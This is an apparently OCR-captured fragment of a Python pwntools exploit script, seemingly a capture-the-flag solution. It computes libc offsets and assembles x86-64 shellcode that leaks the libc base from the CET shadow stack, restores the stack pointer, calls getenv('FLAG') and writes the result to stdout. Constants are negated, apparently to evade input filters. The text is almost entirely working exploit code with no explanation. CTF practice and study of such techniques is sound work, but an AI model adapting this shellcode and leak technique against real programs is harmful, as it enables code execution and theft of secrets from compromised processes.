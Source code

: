 ```python
    GDB_PORT = io.recvline().strip().decode().split(":")[1]
    print(f"[*] attaching to {GDB_PORT}")
    run_in_new_terminal(["gdb", filename, "-ex", f"target remote {HOST}:{GDB_PORT}"] + gdbscript)

def neg32(val):
    return -val & 0xffffffff

def neg64(val):
    return -val & 0xffffffffffffffff

libc = ELF(os.path.join(os.path.dirname(__file__), "libs/libc.so.6"), checksec=False)
leak_offs =  0x29d90
getenv_offs = libc.sym["getenv"]
syscall_offs = libc.sym["syscall"]
environ_offs = libc.sym["environ"] + 1
flag_env = u64(b"FLAG\x00".ljust(8, b"\x00"))

# get FLAG env var and print it to stdout
shellcode = asm(f"""
    endbr64;                                /* ibt */
    rdsspq r12;                             /* r12 = shadow stack addr */
    add r12, 8;
    mov r12, qword ptr [r12];               /* r12 = libc leak */

    /* get libc base */
    mov ebx, {hex(neg32(leak_offs))};
    neg ebx;                                /* rbx = leak offs */
    sub r12, rbx;                           /* r12 = libc base */

    /* restore the stack */
    mov edx, {hex(neg32(environ_offs))};
    neg edx;
    dec rdx;                                /* rdx = environ offs */
    add rdx, r12;                           /* rdx = environ */
    mov rsp, qword ptr [rdx];               /* restore the stack */

    /* getenv("FLAG\x00") */
    mov ecx, {hex(neg32(getenv_offs))};
    neg ecx;                                /* rcx = getenv offs */
    add rcx, r12;                           /* rcx = getenv */

    mov rdi, {hex(neg64(flag_env))};
    neg rdi;                                /* rdi = FLAG\x00 */
    push rdi;
    mov rdi, rsp;                           /* rdi = addr of FLAG */

    mov r15, rcx;                           /* r15 = getenv */
    call r15;                               /* call getenv */

    /* syscall(1, 1, addr of flag, 0x101) */
    xor rdi, rdi;                           /* rdi = 0 */
    add rdi, 1;                             /* rdi = 1 */
    xor rsi, rsi;                           /* rsi = 0 */
    add rsi, 1;                             /* rsi = 1 */
    mov rdx, rax;                           /* rdx = addr of flag */
    mov rcx, {hex(neg64(0x101))}
    neg rcx;                                /* r10 = 0x101 */

    mov r15, {hex(neg64(syscall_offs))};
    neg r15;
    add r15, r12;                           /* r15 = syscall */
    call r15;
""")
```